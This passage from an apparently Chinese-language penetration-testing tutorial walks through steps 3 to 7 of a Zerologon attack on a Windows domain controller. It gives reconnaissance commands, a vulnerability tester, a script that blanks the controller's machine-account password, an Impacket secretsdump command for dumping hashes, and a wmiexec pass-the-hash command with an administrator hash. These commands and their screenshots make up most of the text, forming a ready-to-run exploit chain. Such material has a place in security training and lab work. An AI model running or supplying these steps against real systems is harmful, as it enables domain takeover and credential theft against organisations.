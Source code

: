https://github.com/SecureAuthCorp/impacket

**3、 确定域控主机名及 IP**

在获取到一台域成员系统权限后，收集域控主机名及 IP 信息。

```
ipconfig /all
```

![](https://mmbiz.qpic.cn/mmbiz_png/PrTu58FA79bKJO6B8ew4Y4m6lZxU5ZzhLgX0KAw69QGNmOvrJXu6ibfUicEBWRXiaosNjrkntpJHM0g5asHmwAUVw/640?wx_fmt=png)

```
net user /domain
```

![](https://mmbiz.qpic.cn/mmbiz_png/PrTu58FA79bKJO6B8ew4Y4m6lZxU5Zzh8nxuN4aaGegXaicFEuCRrScb3vVb8mIspxibZCzMu3oplNy2hCytChZQ/640?wx_fmt=png)  

```
ping DC
```

![](https://mmbiz.qpic.cn/mmbiz_png/PrTu58FA79bKJO6B8ew4Y4m6lZxU5ZzhTZ9ySUHYRPiale8aIWeT6RKqG4KoDh9UOOn5ibVwKduDZiag8J1qQZwEw/640?wx_fmt=png)

**4、 测试域控是否存在漏洞**

```
python3 zerologon_tester.py DC 192.168.1.53
```

![](https://mmbiz.qpic.cn/mmbiz_png/PrTu58FA79bKJO6B8ew4Y4m6lZxU5ZzhcOp1zoMA9xUfUY9rKtpAuQLaMLGxGFgqJgic566Ey1DhGiah5XvUAhYg/640?wx_fmt=png)

**5、 使用漏洞利用工具置空域控机器账户的密码（**这一步可能会导致域控脱域，需要及时恢复域控机器用户 hash）。

```
python3 set_empty_pw.py DC 192.168.1.53
```

![](https://mmbiz.qpic.cn/mmbiz_png/PrTu58FA79bKJO6B8ew4Y4m6lZxU5ZzhXziaAfebMW3ibvTGJPKGfiaHLhtibehBZyBkflZad2lgo0M9hlxwmm0Pfw/640?wx_fmt=png)

**6、 使用空密码 dump 域控上的 hash**

```
python3 secretsdump.py troila.com/dc\$@192.168.1.53 –no-pass
```

![](https://mmbiz.qpic.cn/mmbiz_png/PrTu58FA79bKJO6B8ew4Y4m6lZxU5ZzhqrNyxibYXDu4B7TR1PVmKfbHFyrUOEGTPtlhvfQvoxHfdiaQpPms91Uw/640?wx_fmt=png)

**获得 administrator 的 hash 后可以尝试破解，得到明文密码**

![](https://mmbiz.qpic.cn/mmbiz_png/PrTu58FA79bKJO6B8ew4Y4m6lZxU5ZzhcXQE7LqTNKR8dYfcNIRtR1Oe3qATAUpibSHFIr9k3iaiaEBVUGdkgj73g/640?wx_fmt=png)

**7、 通过 wmiexec 使用 administrator 的 hash 获取域管权限**

```
python3 wmiexec.py –hashes  aad3b435b51404eeaad3b435b51404ee:34823259805a88a95e921f4f7e053334 administrator@192.168.1.53
```

![](https://mmbiz.qpic.cn/mmbiz_png/PrTu58FA79bKJO6B8ew4Y4m6lZxU5ZzhYS5S6oBKukryKIDm04nQ7AL7C4wqQIoLZMZJ64ibqWtUIhP0ffpP8DQ/640?wx_fmt=png)
